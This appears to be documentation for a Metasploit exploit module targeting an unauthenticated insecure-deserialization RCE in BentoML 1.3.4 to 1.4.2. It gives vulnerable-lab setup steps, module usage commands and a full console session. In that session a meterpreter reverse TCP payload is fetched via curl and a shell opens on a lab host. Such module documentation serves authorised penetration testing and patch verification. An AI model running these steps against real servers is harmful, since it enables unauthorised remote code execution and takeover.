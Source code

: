 ## Vulnerable Application

A Remote Code Execution (RCE) vulnerability caused by insecure deserialization has been identified in the v1.4.2 of BentoML.
It allows any unauthenticated user to execute arbitrary code on the server.

The vulnerability affects:

    * 1.3.4 <= BentoML < 1.4.3

This module was successfully tested on:

    * BentoML 1.4.2 installed on Ubuntu 24.04


### Installation

1. `pip install -U bentoml==1.4.2`

2. Define APIs in a service.py file:

```python3
from __future__ import annotations

import bentoml


@bentoml.service(
        resources={"cpu": "2"}
        )
class Summarization:
    @bentoml.api(batchable=True)
    def summarize(self, texts: list[str]) -> list[str]:
        return texts

```

3. `bentoml serve --host 0.0.0.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/bentoml_rce_cve_2025_27520`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/bentoml_rce_cve_2025_27520
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > options

Module options (exploit/linux/http/bentoml_rce_cve_2025_27520):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    3000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    true             yes       Attempt to delete the binary after execution
   FETCH_FILELESS  none             yes       Attempt to run payload without touching disk by using anonymous handles, requires Linux ≥3.17 (for Python variant also Python ≥3.8 (Accepted: none, bas
                                              h, python3.8+)
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST                            yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      aNHnUjyAfXo      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.4.2 detected, which is vulnerable.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:32880) at 2025-04-15 22:29:18 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.16
OS           : Ubuntu 24.04 (Linux 6.8.0-56-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
